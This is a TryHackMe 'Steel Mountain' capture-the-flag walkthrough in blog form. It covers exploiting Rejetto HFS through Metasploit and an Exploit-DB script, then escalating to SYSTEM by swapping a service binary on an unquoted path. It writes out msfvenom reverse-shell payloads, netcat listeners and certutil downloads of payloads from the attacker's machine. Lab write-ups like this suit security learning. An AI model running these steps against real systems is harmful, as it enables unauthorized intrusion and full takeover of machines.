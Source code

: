```yaml
---
slug: steel-mountain-walkthrough
title: TryHackMe - Steel Mountain - Walkthrough
authors: bw
tags: [learning, steelmountain, tryhackme, walkthrough]
---
```


This is a [TryHackMe][tryhackme] walkthrough for the room: [Steel Mountain][sm]. Deploy the machine and let’s get started!

# Enumeration
Start with our friend, nmap: `nmap -T4 -A -p- 10.10.89.192`

![sm1](/static/img/thm/steelmountain/sm1.png)

We get some good info here. We can see there is a website on port 80, also some other interesting ports. Let’s take a look at port 80 first!

![sm2](/static/img/thm/steelmountain/sm2.webp)

Hmm…not much here. Viewing the page source gives us our first answer though!

![sm3](/static/img/thm/steelmountain/sm3.png)

Let’s take a look at the other webserver (Second answer). For the third answer, take a look at the **Server Information**.

For the next answer, give Google a shot. [Exploit-DB][exdb] is always a good resource!

# Exploit
According to the next question, we need to use Metasploit: `msfconsole`

```bash
search rejetto 2.3
use 0
info
```
![sm4](/static/img/thm/steelmountain/sm4.png)

This definitely looks like what we are looking for! Now we need to set the options:

```bash
options
set rhosts 10.10.89.192
set rhosts rport 8080
set lhost tun0
options
```

I think that’s all we need: `run`

We have a shell! Let’s look for the user flag.

```bash
getuid
shell
cd C:\Users\bill
dir Desktop
type Desktop\user.txt
```
We found our `user.txt` flag!

![sm5](/static/img/thm/steelmountain/sm5.png)

Next, let’s download the provided PowerShell script: PowerUp

Just like the room tells us, let’s upload the script: `upload <path>/powerup.ps1`

Continue to follow the room instructions:

```powershell
load powershell
powershell_shell
. .\powerup.ps1
Invoke-AllChecks
```

Pay attention to all the checks being populated. There are some that have:
- `CanRestart: True`
- `Check: Unquoted Service Paths`

The ServiceName that belongs to those is our next answer!

Let’s create our payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```

Exit out of the PowerShell session CTRL + C and then upload the payload: `Advanced.exe`

Now let’s stop the service and copy the file into the correct directory:

`sc stop <name of service>`

`copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

Overwrite the current file. Now we need to setup a listener on our local machine so the payload has something to connect the reverse shell to!

`nc -nvlp 4443`

Start the service: `sc start <name of service>`

Go look at your `netcat` terminal and you should have a shell! Find the root flag.

![sm6](/static/img/thm/steelmountain/sm6.png)

# Manual Exploitation
Now, we aren’t done with the room, but if this were real-world we have full system access and have complete control of the machine. I like how this room includes a manual exploitation section (good to learn for the OSCP) which is super useful!

We are provided with an exploit. So let’s keep going!

Create/copy the following files on your local machine:
- `exploit.py`
- `nc.exe`
- `winPEAS.exe`

Here are the links to download:
- [Exploit][rejetto]
- [nc listener][nc] (rename to `nc.exe` if it isn’t already)
- [winPEAS.exe][winpeas] (rename to `winPEAS.exe` if it isn’t already)
**NOTE:** Downloading winPEAS may get flagged by the browser. Make sure to accept any warning about a malicious file.

Now open 3 terminal windows:
1. Python Web Server
2. Netcat listener
3. run exploit

Edit the exploit to add our machine IP and port

![sm7](/static/img/thm/steelmountain/sm7.png)

In the Python webserver run: `python3 -m http.server 80`

In the netcat listener terminal run: `nc -nvlp 1234`

In the exploit terminal run: `python exploit.py 10.10.89.192 8080` (run this twice)

You should now have a shell!

Navigate to `C:\Users\Bill\Desktop` and pull `winPEAS.exe` to the server

`certutil -urlcache -f http://<THM VPN IP>/winPEAS.exe winPEAS.exe`

Now that we have that on the server, we can run it by simply doing: `winPEAS.exe` which provides us with unquoted paths and the ServiceName.

Utilize Google to find out the last question: `powershell -c <command>`

Now the next steps to get system is the same as before:

1. Configure an `msfvenom` payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```
2. Utilize `certutil` to get the payload onto the server
3. Stop the service
4. Start a new `netcat` listener
5. Start the service
6. You should now be `NT AUTHORITY\SYSTEM`

# Review
This was a really well done room. It was a “walkthrough” but didn’t give you everything. It is a good in-between for someone who is doing well in walkthroughs but gets stuck on CTF type rooms.

Steel Mountain provided a good overall review of enumeration, privilege escalation, and exploitation. My favorite part was that it covered metasploit exploitation and manual exploitation!

References
[TryHackMe][tryhackme] | [Steel Mountain Room][sm] | [Exploit-DB][exdb] | [Rejetto Exploit][rejetto] | [nc listener][nc] | [winPEAS Download][winpeas]

[tryhackme]: https://tryhackme.com
[sm]: https://tryhackme.com/why-subscribe?roomCode=steelmountain
[exdb]: https://www.exploit-db.com
[rejetto]: https://www.exploit-db.com/exploits/39161
[nc]: https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master
